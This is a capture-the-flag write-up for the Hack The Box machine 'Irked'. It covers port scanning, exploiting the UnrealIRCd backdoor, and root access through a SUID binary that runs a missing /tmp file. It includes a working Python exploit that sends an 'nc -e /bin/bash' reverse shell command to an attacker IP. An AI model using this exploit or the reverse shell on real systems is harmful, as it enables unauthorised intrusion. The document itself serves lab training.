


# HTB - Irked

#### Ip: 10.10.10.117
#### Name: Irked
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

Lets begin numerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.117        
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:28 CDT
Nmap scan report for 10.10.10.117
Host is up (0.082s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
55208/tcp open  unknown
65534/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.97 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -sC -sV 10.10.10.117 -p 22,80,111,6697,8067,55208,65534   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:54 CDT
Nmap scan report for 10.10.10.117
Host is up (0.068s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41651/udp   status
|   100024  1          42879/tcp6  status
|   100024  1          44446/udp6  status
|_  100024  1          55208/tcp   status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
55208/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.83 seconds
```

Ok interesting, looks like we've got irc open on this box and also got the admin email.

Lets use some nmap scripts to further enumerate this:


Nice, looks like this version has a backdoor. Lets see if we can find any exploits out there for this.

### Exploitation

Doing a bit of research I found a couple of public exploits, as well as a Metasploit mudule that looked interesting.

But what caught my eye was this site, walking you through how to exploit the backdoor with your own Python script: https://null-byte.wonderhowto.com/how-to/hack-unrealircd-using-python-socket-programming-0198050/

I'm wanting to get better at Python, so this seemed great. It's also nice that this was written in Python2, so I had to do just a little work to update it to Python3. 

Here's my code:

```python
#!/usr/bin/env python3

import socket

rhost = '10.10.10.117'
rport = 6697
payload = 'nc -e /bin/bash 10.10.14.37 443'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((rhost, rport))
s.recv(1024)
s.send((f'AB; ' + payload + '\n').encode())
s.close()
```

We can run this, and with a listener going on port 443 catch a shell back as user ircd:



Trying to grab the user.txt flag we get an Permission Denied:

```text
ircd@irked:/home/djmardov$ cat user.txt
cat: user.txt: Permission denied
```
Lets do a bit more enumerating. I'll use LinPEAS to help with this.

### Privilege Escalation

Lets transfer it over to the target using wget and a Python http.server:


LinPEAS finds there is a SUID bit set on something called viewuser.


Trying to run the file we see it is trying to execute `/tmp/listusers` and it is being executed as root. Interestingly, this file doesn't exist in `/tmp`.

```text
ircd@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-08-11 10:25 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/tmp$ ls
linpeas.sh
systemd-private-c8349f01e73441f1b214ff810446ae1b-colord.service-BmFKvk
systemd-private-c8349f01e73441f1b214ff810446ae1b-cups.service-9IDeEm
systemd-private-c8349f01e73441f1b214ff810446ae1b-rtkit-daemon.service-3a32kP
vmware-root
```

Cool, this should be a breeze.

Lets create a file called `listusers` that is just `/bin/bash` and make it world executable. From there all we need to do is execute it, and it will run with root level permissions.


Nice!

Lets grab both of the flags now:


Thanks for following along!

-Ryan

---------------------------------------------

